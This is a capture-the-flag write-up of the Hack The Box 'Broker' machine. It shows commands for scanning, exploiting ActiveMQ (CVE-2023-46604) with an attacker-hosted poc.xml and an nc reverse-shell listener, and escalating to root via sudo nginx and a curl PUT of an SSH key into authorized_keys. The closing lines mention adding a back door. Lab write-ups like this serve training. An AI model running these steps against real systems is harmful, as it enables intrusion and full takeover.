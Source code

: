 ```yaml
---
title: "HTB | BROKER"
date: 2024-07-24 00:00:00 +0800
categories: [HTB]
tags: [Linux]                    
---
```

  
![img-description](/assets/img/HTB/htb.png)
  
## Initial Access - Weak Credentials + Publicly Available Exploit leads to RCE
  
**Vulnerability Explanation:** The web server on port 80 is running with weak credentials admin:admin. This allows for access to the application. A publicly available exploit is available off of github and can be used to gain RCE to the machine.

**Vulnerability Fix:** The credentials to the webserver are compromised and should be changed immediately. Replace credentials with a strong one or remove webserver if not needed.

**Severity:** Critical

**Steps to reproduce the attack:** The initial scan revealed that TCP port 80 is open. The site is protected with a login prompt but is easily passed with weak credentials of admin:admin. Christian discovered a vulnerable application called 'ActiveMQ' running. A public exploit was found off of github and used to gain RCE.

**Port Scan Results**  

**TCP:** 80

**UDP:** NA

Use nmap to scan the target for open ports.

TCP port 22, 80 was discovered.

```shell

sudo nmap -p- -T5 10.10.11.243 -oN nmap.initial

```

![img-description](/assets/img/HTB/BROKER/1.png)

Navigating to the server via web browser reveals a login prompt. Credentials are **admin:admin**.

![img-description](/assets/img/HTB/BROKER/2.png)

![img-description](/assets/img/HTB/BROKER/3.png)
The webserver is running an application called 'ActiveMQ'. A publicly available exploit can be found on github. The exploit requires us to host the poc.xml file. The poc.xml file also needs to be updated with our ip. 

* https://github.com/evkl1d/CVE-2023-46604

![img-description](/assets/img/HTB/BROKER/4.png)
![img-description](/assets/img/HTB/BROKER/5.png)
```
nano poc.xml
```
![img-description](/assets/img/HTB/BROKER/6.png)
```
python3 -m http.server 80
```
![img-description](/assets/img/HTB/BROKER/7.png)
Open a nc listener to catch the incoming shell and run the exploit.
```
nc -nlvp 9001
```
![img-description](/assets/img/HTB/BROKER/8.png)
```
python exploit.py -i 10.10.11.243 -u http://10.10.16.7/poc.xml
```
![img-description](/assets/img/HTB/BROKER/9.png)
![img-description](/assets/img/HTB/BROKER/10.png)
We have successfully obtained initial access to the target machine as user 'activemq'.

## Privilege Escalation - Sudo Privileges + SSH-keygen

**Vulnerability Explanation:** The user 'activemq' has access to run a command with sudo privileges. This allows for an attacker to start a webserver and access the file system as 'root'. A malicious ssh key can be uploaded and used to gain root access to the machine. 

**Vulnerability Fix:** Remove the available sudo privileges command from the 'activemq' account if not needed.

**Severity:** Critical

**Steps to reproduce the attack:** Christian ran the command 'sudo -l' to list the sudo privileged commands available to the user 'activemq'. A command was found using 'nginx'. Starting the server allows access to the file system as 'root'. Christian created an ssh key via 'ssh-keygen' and placed it into the root /.ssh/authorized_keys folder to gain access via ssh.

Check sudo privileges for user 'activemq' with 'sudo -l.' It has sudo privileges to run 'nginx'.

```
sudo -l
```
![img-description](/assets/img/HTB/BROKER/11.png)
Create a configuration file that allows us to access the webserver and PUT method.

![img-description](/assets/img/HTB/BROKER/12.png)
Move the file to the target machine via the previously created python webserver.
```
wget http://10.10.16.7/exploit.conf
```

Start the webserver with our exploit.conf file and sudo.
```
sudo /usr/sbin/nginx -c ~/exploit.conf
```

We can now access the file system as root. 

![img-description](/assets/img/HTB/BROKER/13.png)
Create an ssh key pair using ssh-keygen.
```
ssh-keygen
```

Transfer the 'id_rsa.pub' file to the target machine. Then put it into the root /.ssh/authorized_keys folder  via the web servers.
```
wget http://10.10.16.7/id_rsa.pub .
```
```
curl -X PUT http://10.10.11.243:1234/root/.ssh/authorized_keys --upload-file ~/id_rsa.pub
```
![img-description](/assets/img/HTB/BROKER/14.png)
Root access to machine was successfully obtained via SSH.
```
ssh root@10.10.11.243
```
![img-description](/assets/img/HTB/BROKER/15.png)

## Post Exploitation 

Since this is a CTF the objective is only to retreive the flag located in the /root directory as a privileged user. 

In a real world assessment, we would attempt to add a back door for continuous access to the machine.